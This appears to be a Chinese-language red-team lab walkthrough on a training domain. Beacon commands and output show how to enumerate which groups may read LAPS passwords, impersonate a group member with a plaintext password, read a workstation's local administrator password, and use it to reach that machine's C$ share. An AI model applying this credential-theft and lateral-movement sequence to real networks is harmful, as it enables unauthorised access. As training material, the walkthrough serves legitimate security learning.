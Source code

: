 ```Find-AdmPwdExtendedRights```返回允许读取 LAPS password 的所有OU
```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Find-AdmPwdExtendedRights -Identity Workstations | fl

ObjectDN             : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
ExtendedRightHolders : {NT AUTHORITY\SYSTEM, DEV\Domain Admins, DEV\1st Line Support}
```

上面结果表明，可以读取LAPS 密码属性的三个OU是：NT AUTHORITY\SYSTEM，DEV\Domain Admins，DEV\1st Line Support


由于域管理员可以读取所有 LAPS 密码属性,Get-AdmPwdPassword读取指定计算机的密码
```
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl

ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : WRSZV43u16qkc1
ExpirationTimestamp : 5/20/2021 12:57:36 PM
```

如果已经是DA，大概不太需要通过这种方式读取到密码，但是从之前的结果可知，```DEV\1st Line Support```这个组的成员也可以读取LAPS 密码属性，因此我们可以通过横向到这个组成员，然后读取需要的密码进行横向或者提权

注意，当前账号```DEV\bfarmer```是没有权限读取LAPS密码的
```
beacon> run hostname
wkstn-1

beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl

ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : 
ExpirationTimestamp : 5/20/2021 12:57:36 PM
```

我们首先横向到一个```DEV\1st Line Support```组成员```DEV\jking```，然后再次读取LAPS密码
```
beacon> make_token DEV\jking Purpl3Drag0n
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl

ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : P0OPwa4R64AkbJ
ExpirationTimestamp : 3/23/2021 5:18:43 PM

beacon> rev2self
beacon> make_token .\lapsadmin P0OPwa4R64AkbJ
beacon> ls \\wkstn-2\c$
